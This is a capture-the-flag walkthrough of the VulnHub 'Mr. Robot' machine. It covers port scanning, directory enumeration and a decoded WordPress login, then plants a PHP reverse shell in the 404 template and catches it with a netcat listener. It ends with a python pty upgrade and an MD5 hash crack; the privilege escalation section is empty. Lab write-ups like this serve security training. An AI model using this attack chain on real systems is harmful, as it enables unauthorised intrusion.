

# Mr. Robot

- Attacking machine : Linux kali
- Target machine : [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/) by Leon Johnson on IP address 10.10.10.14

## Vulnerability analysis

### Port scan with `nmap` 

`nmap -T5 -A -p80,443 10.10.10.14`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 13:22 EST
Nmap scan report for 10.10.10.14
Host is up (0.0010s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

Very few services, not even `ssh`. Just the fancy website.

### Directory enumeration with `gobuster`

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.14`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.14
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/04 13:24:51 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/0 (Status: 301)
/video (Status: 301)
/feed (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
/IMAGE (Status: 301)
/wp-signup (Status: 302)
```

This time, many directories are found and some of them are interesting.

#### `/login` and `/wp-login`

The Wordpress login page (/login redirects to /wp-login).

#### `/0`

The Wordpress site

#### `/license`

A provocative CTF-like sentence inserted in order to distract us from the base64 string down the page : `ZWxsaW90OkVSMjgtMDY1Mgo=`

Which turns out to be a hopefully useful login : `elliot:ER28-0652`

#### `/robots`

A redirection to the `robot.txt` file which is very interesting :

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Thus, we get the first key at `/key-1-of-3.txt`.

We've also found a wordlist file `fsocity.dic` containing 858160 word (one per line), including the above mentioned elliot's password.

## Exploitation

We log into the Wordpress blog with elliot's credentials and it works, we're in :



We paste this [pentestingmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell into the 404 template of the Appearance editor :


The ip is set to my attacking machine's and the port is 4444 so I can listen on it with netcat with the following command :

`nc -lvnp 4444`

We trigger the 404 template code by accessing a random URL (like `http://10.10.10.14/skmdfjdsmdfkj`) and we get the following shell :


We are logged in as the Wordpress daemon which shouldn't have lots of permissons.

First, I upgrade my shell with this command : `python -c 'import pty; pty.spawn("/bin/bash")'`

Then, we find the home of the user `robot` the daemon hasn't got the permission to read the second key, however there is a md5 hash of `robot`'s password which happens to be `abcdefghijklmnopqrstuvwxyz`, easily cracked with [crackstation.net](crackstation.net).

The second key is ours.

## Privilege Escalation

